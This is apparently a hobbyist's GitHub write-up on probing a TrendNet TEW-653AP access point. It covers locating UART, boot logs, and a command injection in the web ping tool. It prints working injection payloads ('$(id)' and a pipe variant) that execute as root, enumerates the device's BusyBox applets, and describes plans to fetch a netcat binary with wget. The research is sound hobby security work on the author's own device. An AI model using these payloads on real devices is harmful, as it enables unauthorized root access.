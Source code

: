 # Trendnet
I found a brand new (still sealed!) TrendNet TEW-653 AP at a local thrift store for $4.99
<img src="https://github.com/maguireja/Trendnet/blob/main/IMG_3809.png?raw=true">

# Locating UART
I found an area on the board that looked like UART, with a multimeter I found what I think is ground, Send and Recieve:
<img src="https://github.com/maguireja/Trendnet/blob/main/IMG_3994.png?raw=true">

# Testing UART
I hooked up my flipper zero and connect like normal, after playing around with different baud rates it seems like to 57600.
```
U-boot Ver:1.0.1.30 2009/10/12


Board: Ralink APSoC DRAM:  32 MB  1*32 MB
============================================ 
ASIC 3052_MP2 (Port5<->None)
Product Name: EAP9550
SDRAM CAS = 3(d1835272) 
============================================ 

Please choose the operation: 
   1: Load system code to SDRAM via TFTP. 

LINUX started...
init started: BusyBox v1.7.5 (2011-06-30 16:53:57 CST)
starting pid 131, tty '/dev/console': '/sbin/config_init'
Config Init version: 1.2.2.98 date: 2011/06/30
starting pid 174, tty '/dev/ttyS1': '/sbin/config_term'
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> cat: can't open '/apps/lib/modules/2.6.21/modulesApp.dep': No such file or directory
ln: /sbin/./apps_init: File exists
sh: cannot create /proc/senao/ip_conntrack_interface: nonexistent directory

```

It seemed like the UART shell was limited. Even though I was looking at a prompt, it didn't respond to common commands:
```
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> help
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> ls
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> ?
************************************************************************
*                                TEW-653AP                             *
************************************************************************

KernelApp/Ramdisk Ver:1.2.2.98                   Date:2011/06/30
console> whoami
************************************************************************
*                                TEW-653AP                             *
************************************************************************
```
I did find an old DD-WRT forum post in which a user suggests you can enter 1,2,4 or 9 at the prompt (2,4 and 9 are hidden options). I tried these options but did not notice any changes:
https://forum.dd-wrt.com/phpBB2/viewtopic.php?t=89254&postdays=0&postorder=asc&start=15

# Command Injection
I noticed on the Tools > Diagnostic menu there was a ping utility, provide an IP address and the AP will attempt to ping the target. This looked like a command injection to me, I played around with it for a bit and was unable to get it to work.

I did notice if I provided a payload such as:
```
192.168.10.10'|id|'
```
Then the AP would continue to ping the target IP, regardless of how many counts were provided. I observed the continous ping in wireshark. This led me to believe there is something interesting happening here.

# UART Logs
While connected to the UART, I continued to test the ping functionality. While providing the following payload:
```
192.168.10.101"$(id)"
```
I noticed the following in the UART console:
```
ping bad address uid=0
```

This confirmed there is in fact a command injection, I can see in the UART console log that the _id_ command did execute. it appears the output from the _id_ command was fed into the ping command.

# Trying for a shell
After confirming the command injection, I wanted to get a shell on the device. I tried many different payloads, but nothing was working and the limited output of the UART console was making it hard to tell what exactly was failing. I thought it would be helpful to know what applets were on this busybox, and if netcat was present at all. So I made a wordlist of all busybox applets from here: https://busybox.net/downloads/BusyBox.html I then used BurpSuite's Intruder to send each applet inside my command injection payload, and logged the UART shell output. I found the following applets installed:
```
cat binaries.txt       
ping: bad address 'sbin/arp'
ping: bad address 'sbin/brctl'
ping: bad address 'sbin/dumpleases'
ping: bad address 'sbin/httpd'
ping: bad address 'sbin/ifconfig'
ping: bad address 'sbin/ifdown'
ping: bad address 'sbin/ifup'
ping: bad address 'sbin/init'
ping: bad address 'sbin/insmod'
ping: bad address 'sbin/lsmod'
ping: bad address 'sbin/modprobe'
ping: bad address 'sbin/reset'
ping: bad address 'sbin/rmmod'
ping: bad address 'sbin/route'
ping: bad address 'sbin/sysctl'
ping: bad address 'sbin/syslogd'
ping: bad address 'sbin/udhcpc'
ping: bad address 'sbin/udhcpd'
ping: bad address 'sbin/vconfig'
ping: bad address 'sbin/wget'
ping: bad address 'bin/ash'
ping: bad address 'bin/ash'
ping: bad address 'bin/cat'
ping: bad address 'bin/chmod'
ping: bad address 'bin/cp'
ping: bad address 'bin/date'
ping: bad address 'bin/df'
ping: bad address 'bin/dmesg'
ping: bad address 'bin/echo'
ping: bad address 'bin/grep'
ping: bad address 'bin/ip'
ping: bad address 'bin/kill'
ping: bad address 'bin/ln'
ping: bad address 'bin/ls'
ping: bad address 'bin/mkdir'
ping: bad address 'bin/mknod'
ping: bad address 'bin/mv'
ping: bad address 'bin/netstat'
ping: bad address 'bin/nice'
ping: bad address 'bin/pidof'
ping: bad address 'bin/ping'
ping: bad address 'bin/ps'
ping: bad address 'bin/pwd'
ping: bad address 'bin/rm'
ping: bad address 'bin/sh'
ping: bad address 'bin/sleep'
ping: bad address 'bin/stty'
ping: bad address 'bin/sync'
ping: bad address 'bin/touch'
ping: bad address 'bin/true'
ping: bad address 'bin/umount'
ping: bad address 'bin/uname'
```
It doesn't look like theres much to work with, and nc missing so any netcat shells won't work.

# Bring my own binary?
I noticed wget is present, and I confirmed it worked by using the command injection to download a txt file from my laptop. So I thought maybe I can just compile a version of netcat for the AP, then use wget to retrieve it.  While looking at the board I noticed there was a piece of metal (a heatsink?) on top of the processor:
pic here

So I thought, I'll just pop that off so I can see specifically what the processor is. I did that and found it was a RaLink (which should have been obvious because I saw Ralink the UART prompt previously):

# Bummer
With the specific model number for the processor I did some research. It's a MIPS processor, and so any binary I compile would need to be MIPS. This led me down a rabbit hole researching cross compiling, and trying to find shells or mips backdoors other people have created. I did find an interesting one here that was created for a trendnet switch: https://osandamalith.com/2015/10/11/how-to-turn-your-switch-into-a-snitch/

I was excited to try this out, I started by compiling a simple hello world binary. I got everything ready and then..... 

The AP no longer powers up. Previously on boot, LEDs would flash, I don't see those anymore. I don't see it broadcasting it's default SSID, and I get nothing on the UART port. When I test with my multimeter, I don't see any voltage coming from the TX pin on the UART.

Womp Womp

I don't know what I did wrong, I didn't think removing the heatsink would break the AP, but I guess it did. That's all for now, maybe I can find another AP in the future.

